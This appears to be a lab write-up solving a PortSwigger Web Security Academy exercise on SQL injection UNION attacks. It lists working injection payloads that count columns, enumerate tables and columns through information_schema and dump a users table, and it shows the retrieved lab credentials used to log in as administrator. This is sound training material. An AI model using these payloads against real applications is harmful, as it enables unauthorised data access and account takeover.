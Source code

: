 **Lab: SQL Injection UNION attack – Retrieving data from other tables** - **Link:** [https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)


**Goal:**
Retrieve the administrator’s password from the `users` table and log in as administrator.


**Step-by-step:**
Access the lab, open Burp Suite, and capture a request.

**1. Determine number of columns**
Test with `ORDER BY` until it breaks:

```
' ORDER BY 1--         → OK  
' ORDER BY 2--         → OK  
' ORDER BY 3--         → ERROR  
```

Means: 2 columns


**2. Determine data types in columns**
Try:

```
' UNION SELECT NULL,NULL--         → OK  
' UNION SELECT 'a',NULL--          → OK  
' UNION SELECT 'a','a'--           → OK  
```

Both columns accept text


**3. Enumerate table names**
Use information schema:

```
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

Look for a table called: `users`


**4. Enumerate column names from `users` table**

```
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--
```

Found columns: `username`, `password`


**5. Retrieve credentials from `users` table**

```
' UNION SELECT username,password FROM users--
```

Output:

```
wiener         cd5phuq6iy3tp5rxdgxs  
administrator  osmnvjx88cco5t85q9fh  
carlos         hf9xwpsozcwq3eslljhq  
```


**6. Log in as administrator**
Go to **My account** and log in using:

```
username: administrator  
password: osmnvjx88cco5t85q9fh  
```


**Lab Solved**
